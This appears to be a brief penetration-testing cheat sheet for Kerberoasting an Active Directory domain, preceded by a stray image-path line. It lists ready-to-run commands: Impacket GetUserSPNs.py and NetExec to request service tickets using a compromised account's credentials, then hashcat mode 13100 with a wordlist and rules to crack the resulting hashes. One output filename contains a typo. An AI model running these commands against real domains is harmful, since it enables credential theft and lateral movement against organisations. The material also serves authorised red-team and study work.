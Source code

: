 ### Impacket

```shell
GetUserSPNs.py -request -dc-ip $TARGET -outputfile hashes.kerberoast $DOMAIN/$PWNED_USER
```

### NetExec

```shell
nxc ldap $TARGET -u $USERNAME -p $PASSWORD --kerberoast hashes.berberoast              

```

### Crack it

```shell
hashcat -m 13100 hashes.kerberoast `fzf-wordlists` -r /usr/share/hashcat/rules/best64.rule --force
```